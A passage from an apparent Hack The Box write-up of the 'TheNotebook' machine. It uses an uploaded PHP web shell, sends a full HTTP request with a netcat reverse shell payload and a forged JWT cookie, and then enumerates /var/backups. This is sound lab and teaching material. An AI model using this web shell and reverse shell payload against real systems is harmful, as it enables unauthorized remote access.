   ![HTB TheNotebook - Uploaded Files](https://i.imgur.com/aCdIwnN.png){: .align-center}

  - Adding a simple query string at its end, as expected by our simple web shell, to run the id command (`cmd=id`) and we could confirm that we have code execution in the server :smiley:

  ![HTB TheNotebook - Simple WebShell](https://i.imgur.com/eSH3rQY.png){: .align-center}

  - To get a reverse shell, configured a listener and then sent another payload, this time to get a TCP connection from the server, which worked as expected :smile:

    ```http
    GET /1e49f8a12603040cc99b2dd39f423b09.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.10.10+4443+>/tmp/f HTTP/1.1
    Host: 10.10.10.230
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4xMTY6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Impkb2UiLCJlbWFpbCI6Impkb2VAZHVtbXkuY29tIiwiYWRtaW5fY2FwIjoxfQ.WMokYjjMMECoF2UWM2fcMVcR99X34dHXwuj8nXqBlQWOnwC1NdBoO6PD-ZHjAZ5p969Jbf4XnRKZedAAokxvIgG2ymYNV1F8CcDzDfuHlMlk_CiYGvimoJWgvA3S-24KDql2bRrvJgoPbKKjqJ5Ir7mWZF1USGSwsttc9Ff1qniFAWTJ8CXkTLtfR498_rY_uIJfBdvqTbi3C9fWJcnSwjCGROkEGxCYve4cf5rjFvm_D_G5-S8oWkXICYAFp5lMQ288E0qGQp04nD16H1v2YzOROolNDeqMVB2uaI060xjKEA8mv6taa095q7rEqzpzXSj21Uq2-xcZonk0LI1-yg; uuid=d3f32390-d9e4-4eb0-b1a0-788b54fd8278
    Connection: close
    ```

## User flag

After obtaining the reverse shell, started enumerating the box with the account `www-data`, which is the one used by the web server execution. The following items stood out from the others listed during `linpeas.sh` execution:

- Users with console and their permissions

  - `noah:x:1000:1000:Noah:/home/noah:/bin/bash`
  - `root:x:0:0:root:/root:/bin/bash`

- Existence of `/var/backups` folder, also mentioned in the previously seen notes.

As this was previously mentioned, started by inspecting the contents of `/var/backups`, where most of the files we couldn't read except for the `home.tar.gz`, which could have some interesting information.

```bash
www-data@thenotebook:/var/backups$ ls -la
total 696
drwxr-xr-x  2 root root     4096 Jun 11 06:26 .
drwxr-xr-x 14 root root     4096 Feb 12 06:52 ..
-rw-r--r--  1 root root    51200 Jun 11 06:25 alternatives.tar.0
-rw-r--r--  1 root root    33252 Feb 24 08:53 apt.extended_states.0
-rw-r--r--  1 root root     3609 Feb 23 08:58 apt.extended_states.1.gz
-rw-r--r--  1 root root     3621 Feb 12 06:52 apt.extended_states.2.gz
-rw-r--r--  1 root root      437 Feb 12 06:17 dpkg.diversions.0
-rw-r--r--  1 root root      172 Feb 12 06:52 dpkg.statoverride.0
-rw-r--r--  1 root root   571460 Feb 24 08:53 dpkg.status.0
-rw-------  1 root root      693 Feb 17 13:18 group.bak
-rw-------  1 root shadow    575 Feb 17 13:18 gshadow.bak
-rw-r--r--  1 root root     4373 Feb 17 09:02 home.tar.gz
-rw-------  1 root root     1555 Feb 12 06:24 passwd.bak
-rw-------  1 root shadow   1024 Feb 12 07:33 shadow.bak
```
